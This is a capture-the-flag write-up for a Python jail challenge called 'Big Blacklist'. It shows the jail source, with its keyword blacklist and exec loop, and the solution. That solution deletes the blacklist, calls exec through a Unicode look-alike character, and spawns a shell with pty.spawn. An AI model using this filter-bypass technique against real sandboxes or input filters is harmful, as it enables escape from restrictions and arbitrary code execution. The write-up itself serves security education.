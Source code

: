 <h1>Writeup for Big Blacklist:</h1>



Big Blacklist was a PyJail Challenge in which we were given a Netcat server and port , When we connect to it we Get the source code of the Jail and a Prompt.

Jail source Code :
```py
#!/usr/bin/env python3
blacklist = ["/","0","1","2","3","4","5","6","7","8","9","setattr","compile","globals","os","import","_","breakpoint","exit","lambda","eval","exec","read","print","open","'","=",'"',"x","builtins","clear"]
print("="*25)
print(open(__file__).read())
print("="*25)
print("Welcome to the jail!")
print("="*25)

for i in range(2):
        x = input('Enter command: ')
        for c in blacklist:
                if c in x:
                        print("Blacklisted word found! Exiting!")
                        exit(0)
        exec(x)
```
As we can see thats a big blacklist.

Solution:

To break the jail i used the following approach :

```
del blacklist;eₓec(input())
blacklist = []
import pty; pty.spawn("/bin/sh")
```

`del blacklist` : Delete's the blacklist.

`eₓec(input())` : Invokes an input so that i can re-assign an empty blacklist[] array , If i dont re-assign the array the for loop will break as the blacklist variable will not be there,
                  and as you can see the 'ₓ' in eₓec is not a standard x its a different latin-unicode character but python interprets it as 'x' , This is too bypass the the blacklist of 'x' and 'exec'.
                  
`import pty;pty.spawn("/bin/sh")` : Now that the blacklist[] array is empty we can use a standard python one-liner shell command.

[Link to Unicode Character X](https://www.compart.com/en/unicode/U+2093)


Also you can bypass the `print` blacklist using the unicode ₚ

[Link to Unicode Character P](https://www.compart.com/en/unicode/U+209A)

This opens many opportunites for diffrent writeups as there might be many different unicode characters that could be used.
